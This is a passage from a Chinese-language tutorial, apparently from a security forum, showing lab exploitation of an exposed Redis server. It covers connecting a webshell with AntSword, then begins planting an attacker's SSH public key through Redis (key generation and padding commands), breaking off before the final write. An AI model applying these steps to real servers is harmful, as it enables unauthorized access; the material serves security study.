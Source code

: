 ```php
/etc/init.d/apache2 start
```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f09a53b671fd99dcb057c6eb9a85164a80bea5c8.png)

进行访问 可以看到是成功的

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-252c348eafbaf122d1fa4c6a40f1cb0fed99dae2.png)  
蚁剑连接

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c352ae60ba533df0e31acdd27754da7011e9b11b.png)

0x04 Redis密钥登录SSH
-----------------

kali开启ssh服务

```c
/etc/init.d/ssh start
```

设置redis密码

```c
config set requirepass a001
```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-77ce131ad4883d25db23eadc90d248d39b35a88e.png)  
设置成功后 在进行查看就不可以了

把密码写进去

```c
auth a001
```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a4adc7b092b1f754faedeaf3b1c7e37f1b3ce6c6.png)

攻击机kali生成`ssh-rsa`密钥

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cef222c31a9ad659bd4f4fc2e284a1b6365dfdf2.png)

然后在`.ssh`这个目录下 就生成了这两个文件

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ef80e81ebc93c61daf8ac39ae793c023abf3dc19.png)  
进行导出Key

```c
(echo -e &amp;quot;\n\n&amp;quot;; cat id_rsa.pub; echo -e &amp;quot;\n\n&amp;quot;) &amp;gt; key.txt
```

`\n\n`是为了防止乱码

把生成的key.txt 复制到redis/src的目录下

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b21caf8c5f6f29a46e797734354fe3706056a44d.png)
